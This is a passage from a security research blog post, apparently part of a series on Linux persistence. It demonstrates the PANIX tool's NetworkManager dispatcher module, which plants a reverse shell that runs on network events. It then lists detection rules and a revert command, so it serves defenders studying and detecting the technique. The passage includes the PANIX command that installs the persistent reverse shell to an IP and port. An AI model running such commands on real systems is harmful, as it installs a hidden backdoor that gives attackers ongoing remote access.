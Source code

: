 ```

chmod +x "$dispatcher_file"
```

We have included only the most relevant snippets of the module above. Feel free to check out the module source code if you are interested in diving deeper.

Let’s run the PANIX module with the following command line arguments:

```
> sudo ./panix.sh --network-manager --default --ip 192.168.1.100 --port 2017

[+] Created new dispatcher file: /etc/NetworkManager/dispatcher.d/panix-dispatcher.sh
[+] Replaced payload placeholder with actual payload.
[+] Using dispatcher file: /etc/NetworkManager/dispatcher.d/panix-dispatcher.sh
```

Now, whenever a new network event triggers, the payload will be executed. This can be done through restarting the NetworkManager service, an interface or a reboot. Let’s take a look at the documents in Kibana:

![PANIX network-manager module execution visualized in Kibana](/assets/images/the-grand-finale-on-linux-persistence/image1.png)

Upon PANIX execution, the `panix-dispatcher.sh` script is created, marked as executable and `sed` is used to add the payload to the bottom of the script. Upon restarting the `NetworkManager` service through `systemctl`, we can see `nm-dispatcher` executing the `panix-dispatcher.sh` script, effectively detonating the reverse shell chain (`panix-dispatcher.sh` → `nohup` → `setsid` → `bash`).

And finally, let’s take a look at our detection opportunities:

*Detection and endpoint rules that cover network-manager persistence*

| Category | Coverage |
| :---- | :---- |
| File | [NetworkManager Dispatcher Script Creation](https://github.com/elastic/detection-rules/blob/9b8b9175985ed533493e2c9dc4dc17ee8bf9e704/rules/linux/persistence_network_manager_dispatcher_persistence.toml) |
|      | [Potential Persistence via File Modification](https://github.com/elastic/detection-rules/blob/ac541f0b18697e053b3b56544052955d29b440c0/rules/integrations/fim/persistence_suspicious_file_modifications.toml) |
| Process | [Shell via NetworkManager Dispatcher Script](https://github.com/elastic/protections-artifacts/blob/3fac07906582ca9615d0e291a4629445fd5ca37b/behavior/rules/linux/execution_shell_via_networkmanager_dispatcher_script.toml) |
| Network | [Reverse Shell via NetworkManager Dispatcher Script](https://github.com/elastic/protections-artifacts/blob/3fac07906582ca9615d0e291a4629445fd5ca37b/behavior/rules/linux/execution_reverse_shell_via_networkmanager_dispatcher_script.toml) |

To revert any changes, you can use the corresponding revert module by running:

```
> ./panix.sh --revert network-manager

[+] Checking for payload in /etc/NetworkManager/dispatcher.d/01-ifupdown...
[+] No payload found in /etc/NetworkManager/dispatcher.d/01-ifupdown.
[+] Removing custom dispatcher file: /etc/NetworkManager/dispatcher.d/panix-dispatcher.sh...
[+] Custom dispatcher file removed.
[+] NetworkManager persistence reverted.
```

# Hunting for T1546 - Event Triggered Execution: NetworkManager
